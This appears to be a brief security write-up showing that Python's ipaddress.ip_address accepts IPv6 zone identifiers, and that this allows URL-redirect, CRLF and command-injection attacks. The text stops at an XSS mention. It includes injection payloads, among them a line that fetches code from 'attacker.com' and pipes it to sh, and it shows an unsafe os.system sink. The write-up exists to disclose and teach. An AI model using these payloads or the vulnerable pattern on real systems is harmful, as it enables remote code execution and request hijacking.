 
# ip_address and Injections
`ipaddress.ip_address` is the most common way to parse IP addresses in Python.

```
>>> import ipaddress
>>> ipaddress.ip_address('::1%Cherry')
IPv6Address('::1%Cherry')
>>> print(ipaddress.ip_address('::1%Cherry'))
::1%Cherry

```

We've confirmed that the library returns the Zone Identifier. It's important to understand that many developers are not aware of this behavior, which leads to injections.

A few real-life examples:
## URL formating
Example:
```
addr = ipaddress.ip_address('::1%61]@example.com#')
url = f"https://[{addr}]:80/info"

```
In such cases, it's possible to bypass the brackets `[]` and redirect the request using `@` to a destination different from what the developer expects.
Also works with `parsed_url._replace`:

```
parsed_url._replace(netloc="[::1%61]@example.com")

```

## RCE
In some cases (if you're very lucky), this can lead to the possibility of executing code:

```
os.system(f"ping -c 1 {addr} > ./file")

```

I can't use the "/" symbol, but it's still possible to execute code:

```
>>> ipaddress.ip_address('::1%;curl attacker.com | sh;')
IPv6Address('::1%;curl attacker.com | sh;')

```

## Another
It's important to understand that achieving CRLF is also possible in some use cases:

```
>>> ipaddress.ip_address('::1%\r\nasd')
IPv6Address('::1%\r\nasd')

```
Also you can try to get XSS with:
